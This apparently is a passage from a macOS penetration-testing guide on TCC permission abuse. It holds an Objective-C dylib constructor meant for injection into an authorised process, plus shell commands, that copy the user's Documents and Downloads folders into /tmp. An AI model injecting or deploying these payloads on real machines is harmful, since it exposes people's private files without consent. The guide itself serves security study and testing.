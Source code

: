 ```bash
cp -r "$HOME/Documents" "/tmp/documents"
```
{% endtab %}
{% endtabs %}

### Downloads

* **Entitlement**: None
* **TCC**: `kTCCServiceSystemPolicyDownloadsFolder`

{% tabs %}
{% tab title="ObjetiveC" %}
Copy `$HOME/Downloads` to `/tmp/downloads`.

```objectivec
#include <syslog.h>
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#import <Foundation/Foundation.h>

// gcc -dynamiclib -framework Foundation -o /tmp/inject.dylib /tmp/inject.m

__attribute__((constructor))
void myconstructor(int argc, const char **argv)
{  
    freopen("/tmp/logs.txt", "w", stderr); // Redirect stderr to /tmp/logs.txt

    NSFileManager *fileManager = [NSFileManager defaultManager];
    NSError *error = nil;    

    // Get the path to the user's Pictures folder
    NSString *picturesPath = [NSHomeDirectory() stringByAppendingPathComponent:@"Downloads"];
    NSString *tmpPhotosPath = @"/tmp/downloads";

    // Copy the contents recursively
    if (![fileManager copyItemAtPath:picturesPath toPath:tmpPhotosPath error:&error]) {
        NSLog(@"Error copying items: %@", error);
    }

    NSLog(@"Copy completed successfully.", error);

    fclose(stderr); // Close the file stream
}
```
{% endtab %}

{% tab title="Shell" %}
Copy `$HOME/Dowloads` to `/tmp/downloads`.

```bash
cp -r "$HOME/Downloads" "/tmp/downloads"
```
{% endtab %}
{% endtabs %}
